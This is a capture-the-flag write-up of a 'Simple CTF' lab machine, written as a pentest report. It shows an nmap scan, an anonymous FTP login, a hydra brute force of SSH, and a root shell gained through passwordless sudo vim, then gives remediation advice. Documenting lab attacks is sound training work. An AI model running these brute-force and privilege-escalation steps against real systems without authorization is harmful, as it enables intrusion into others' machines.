



# Simple CTF

## Table of contents

- Executive summary
- Description of the attack
- **Conclusion and suggested remediation:**

## 1. Executive summary

The test was performed on a single host with 3 vulnerable services exposed: 

- `ftp` with anonymous login with access to confidential data
- `http` running a vulnerable version of `Simple CMS`
- `ssh` with a poor password

Both HTTP and SSH contain sufficient attack surface to compromise the host, thus remediation must contain a strict and thorough analysis and implementation of more secure practices

## 2. Description of the attack

### 2.1 Network enumeration

Using `nmap` I’ve discovered that the target runs the following:

```bash
nmap -oN host_scan.txt 10.10.136.81 

Starting Nmap 7.60 ( https://nmap.org ) at 2023-09-23 18:42 BST
Nmap scan report for ip-10-10-136-81.eu-west-1.compute.internal (10.10.136.81)
Host is up (0.00099s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
2222/tcp open  EtherNetIP-1
MAC Address: 02:32:DE:2A:8F:0F (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 10.71 seconds
```

Which immediately provides results for the following flags



> The third flag: **What's the CVE you're using against the application?** is a bit misleading, as user may be tempted to run nmap with `-A` flag. This will reveal that the `ssh` server contains **CVE:** [2016-6210](https://nvd.nist.gov/vuln/detail/CVE-2016-6210) OpenSSH 7.2p2 - Username Enumeration ****vulnerability. **However, that’s not the right answer.** The right answer is **CVE-2019-9053,** but the exploit written for this CMS is in `python 2`and actually running the exploit is a dreadful process. So I’ve just skipped the flags as there aren’t more hosts or a DB to compromise.
> 

### 2.2 FTP exploitation

The nmap also shows us, that the target runs FTP. So I tried to see if it enables anonymous logins.

```bash
ftp 10.10.136.81
Connected to 10.10.136.81.
220 (vsFTPd 3.0.3)
Name (10.10.136.81:root): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -l
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt
226 Directory send OK.
ftp> get ForMitch.txt
local: ForMitch.txt remote: ForMitch.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for ForMitch.txt (166 bytes).
226 Transfer complete.
166 bytes received in 0.00 secs (319.1129 kB/s)
ftp> exit
221 Goodbye.
```

So I decided to cat the contents of ForMitch.txt

```bash
cat ForMitch.txt 
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
```

### 2.3 SSH Exploitation

And that led me to a logical conclusion that we could try to hack into the machine using `mitch` as username

```bash

hydra -l mitch -P Tools/wordlists/rockyou.txt 10.10.136.81 -s 2222  ssh -t 4
Hydra v9.6dev (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-23 19:04:16
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344398 login tries (l:1/p:14344398), ~3586100 tries per task
[DATA] attacking ssh://10.10.136.81:2222/
[2222][ssh] host: 10.10.136.81   login: mitch   password: secret
[STATUS] 14344398.00 tries/min, 14344398 tries in 00:01h, 1 to do in 00:01h, 1 active
```

And so we get answers to the following:



```bash
mitch@Machine:~$ cat user.txt 
G00d j0b, keep up!
```


### 2**.4 Privilege Escalation:**

While **`mitch`** didn't have permission to execute **`/bin/su`** as root, the **`sudo -l`** command revealed that **`mitch`** could execute **`/usr/bin/vim`** without a password. Using GTFObins (a repository of Unix binaries that can be exploited by an attacker to bypass local security restrictions), it was determined that vim can be exploited to gain a root shell.

Executing **`sudo vim -c ':!/bin/sh'`** provided a root shell, allowing access to the **`root.txt`** file with another congratulatory message.

```bash
mitch@Machine:~$ sudo su
[sudo] password for mitch: <secret>
Sorry, user mitch is not allowed to execute '/bin/su' as root on Machine.
mitch@Machine:~$ sudo -l
User mitch may run the following commands on Machine:
(root) NOPASSWD: /usr/bin/vim
mitch@Machine:~$
```

So now’s the time to see how to exploit this. A quick google search will lead us to **GTFObins**



```bash
$ sudo vim -c ':!/bin/sh'

# ls -l /root
total 4
-rw-r--r-- 1 root root 24 aug 17  2019 root.txt
# cat /root/root.txt	
W3ll d0n3. You made it!
```


### 3**. Conclusion and suggested remediation:**

The target machine had multiple vulnerabilities ranging from weak passwords to misconfigured permissions, leading to full system compromise. It's crucial for the administrators of such machines to ensure strong password policies, restrict anonymous FTP access, and ensure careful configuration of sudo permissions.

1. Disable anonymous FTP login or ensure only necessary files are present in the FTP directory.
2. Swap password-based access to the machine via SSH to a public key authentication
3. Regularly review and audit sudo permissions for users. Avoid giving NOPASSWD access unless strictly necessary.
4. Update `Simple CMS` or switch to other CMS to mitigate known vulnerabilities in this CMS. 
5. Escalate the conflict between the author of the file `ForMitch.txt` to **HR** and make sure to educate your users on the importance of not leaving personal notes in publicly accessible places.